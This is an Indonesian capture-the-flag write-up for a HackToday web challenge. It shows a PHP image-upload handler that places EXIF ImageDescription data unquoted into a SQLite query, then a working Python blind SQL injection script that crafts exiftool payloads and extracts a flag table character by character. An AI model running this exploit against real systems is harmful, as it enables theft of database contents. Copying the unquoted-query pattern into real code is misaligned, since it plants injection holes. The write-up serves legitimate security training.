

### Soal
---

http://103.56.207.107:50001


```php

<?php
include ('init.php');

session_start();
$upload_dir = "uploads/";
$upload_check = 1;
$imageFileType = strtolower(pathinfo($_FILES["legpic"]["name"], PATHINFO_EXTENSION));
$file_ = $upload_dir . md5(random_bytes(32)) . '.' . $imageFileType;

if (isset($_POST["submit"]) && isset($_POST['token'])) {
	$check = getimagesize($_FILES["legpic"]["tmp_name"]);
	if ($check !== false) {
		$upload_check = 1;
	}
	else {
		$upload_check = 0;
	}

	$t = $_POST['token'];
	if ($t != $_SESSION['csrf_token']) {
		die("Token tidak valid!");
	}

	$_SESSION['csrf_token'] = base64_encode(openssl_random_pseudo_bytes(32));
    
    if ($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg" && $imageFileType != "gif") {
		$upload_check = 0;
	}

	if ($upload_check == 0 || !move_uploaded_file($_FILES["legpic"]["tmp_name"], $file_)) {
		die("gagal upload :(");
	}

	$exif = exif_read_data($file_);
	parse_str($exif['ImageDescription'], $exif);
	if(!$exif) die("Gambar tidak valid!");
	$leg = SQLite3::escapeString($exif['leg']);
    
    $db->exec("DELETE FROM Legs Where Session='{$_SESSION['session_token']}';");
	query("INSERT INTO Legs (Session, Leg) VALUES ('{$_SESSION['session_token']}', {$leg})");
	unlink($file_);
    
    $dir = "results/";
	$fname = $dir . sha1(openssl_random_pseudo_bytes(32)) . '.php';
	$f = fopen($fname, "w");
    
    $result = $db->query("SELECT Leg FROM Legs Where Session='{$_SESSION['session_token']}' Limit 1");
	if (count($result) == 1) {
		foreach($result as $res) {
			if ($res['Leg'] == '1') {
				fwrite($f, 'Satu kaki');
			}
			else
			if ($res['Leg'] == '2') {
				fwrite($f, 'Dua kaki');
			}
			else {
				fwrite($f, 'Tidak diketahui');
			}
		}
	}

	fwrite($f, "<?php unlink(__FILE__); ?>");
	fclose($f);
	header("Location: /{$fname}");
	$db = NULL;
}

die();
?>

```

### Writeup
---
Diberikan website yang mempunya fitur untuk upload gambar dan membaca data melalui value dari exif ImageDescription, Jadi gambar yang kita upload akan di proses datanya ketika memiliki value pada "ImageDescription" dan value yang ada di dalamnya akan di passing ke fungsi `parse_str`.


```php

	parse_str($exif['ImageDescription'], $exif);
	if(!$exif) die("Gambar tidak valid!");

```

untuk menambahkan ImageDescription pada gambar kita bisa menggunakan exiftool `exiftool -ImageDescription="leg=1" gambar.jpg` sehingga ketika di upload akan mengembalikan response `Satu kaki`


```php

query("INSERT INTO Legs (Session, Leg) VALUES ('{$_SESSION['session_token']}', {$leg})");

```

pada kode di atas terlihat bahwa input yang kita masukkan dilempar kedalam query, sehingga kita dapat melakukan injeksi, namun terlihat ada filter yang di gunakan untuk mengescape inputan kita menggunakan `$leg = SQLite3::escapeString($exif['leg']);` namun karena input kita tidak di wrap dengan quote di bagian query nya seperti `'{$leg}'` jadi kita dapat melakukan injeksi tanpa menggunakan quote atau double, kemudian kita bisa mengkonstruksikan payload untuk melakukan blind sqlite injection.


```python

import requests
import re
from StringIO import StringIO
from pycurl import *
import os
import pickle

url = "http://103.56.207.107:50001/upload.php"

headers = {
"Cache-Control": "max-age=0", 
"Origin": "http://103.56.207.107:50001", 
"Upgrade-Insecure-Requests": "1", 
"Content-Type": "multipart/form-data", 
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.75 Safari/537.36",
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", 
"Referer": "http://103.56.207.107:50001/", 
"Accept-Language": "en-US,en;q=0.9,de;q=0.8,es;q=0.7,id;q=0.6,ms;q=0.5", 
"Connection": "close",
"Cookie": "PHPSESSID=5d42tgrbtj0lifr04f02k3r1e6"
}


def check(data):
	return re.search("Satu kaki", data)

def getToken():
    req = requests.session()
    greptoken = req.get("http://103.56.207.107:50001/", headers=headers)
    token = str(re.search(r"type=\"hidden\" value=\"(.*)\"", greptoken.text).group(1).split("\"")[0]).strip()
    return token

def upload(token):
    c = Curl()
    d = StringIO()
    h = StringIO()
    c.setopt(URL, url)
    c.setopt(POST, 1)
    c.setopt(HTTPPOST, [('legpic', (FORM_FILE, '1leg.jpg')), ('submit', 'Deteksi'), ('token', str(token))])
    c.setopt(COOKIEFILE, 'cookie.txt')
    c.setopt(COOKIEJAR, 'cookie.txt')
    c.setopt(FOLLOWLOCATION, 1)
    c.setopt(WRITEFUNCTION, d.write)
    c.setopt(HEADERFUNCTION, h.write)
    c.perform()
    c.close()
    return d.getvalue()

def blind(kolom,table):
    passwd = ""
    idx = 1

    while (True):
        lo = 1
        hi = 255
        temp = -1
        while(lo <= hi):
            mid = (lo + hi) / 2
            # command = "exiftool -ImageDescription=\"leg=(SELECT CASE when hex(substr({},{},1)) <= hex(char({})) THEN 1 ELSE 2 END FROM {})\" 1leg.jpg".format(str(kolom),str(idx),str(mid),str(table))
            command = "exiftool -ImageDescription=\"leg=(SELECT CASE when hex(substr({},{},1)) <= hex(char({})) THEN 1 ELSE 2 END FROM {}))--+-\" 1leg.jpg".format(str(kolom),str(idx),str(mid),str(table))
            os.system(command)
            res = upload(getToken())

            if check(res):
               hi = mid-1
               temp = mid
            else:
               lo = mid+1
               
        if (hi == 0): break
        passwd += chr(temp)
        print "Result [{}]: {}".format(table,passwd)
        idx += 1

    return passwd
   


# blind("sql","sqlite_master")
# CREATE TABLE Legs (Id INTEGER PRIMARY KEY, Session TEXT UNIQUE, Leg INTEGER)

# blind("name","sqlite_master where name!=char(76,101,103,115) and sql like(char(37,102,108,97,103,37))")
# mysecretflaag

# blind("sql","sqlite_master where name=char(109,121,115,101,99,114,101,116,102,108,97,97,103)")
# CREATE TABLE mysecretflaag (Id INTEGER PRIMARY KEY, thi

blind("this_is_real_flag","mysecretflaag")
#HackToday{blind_sqlite3_injection_via_exif_

```


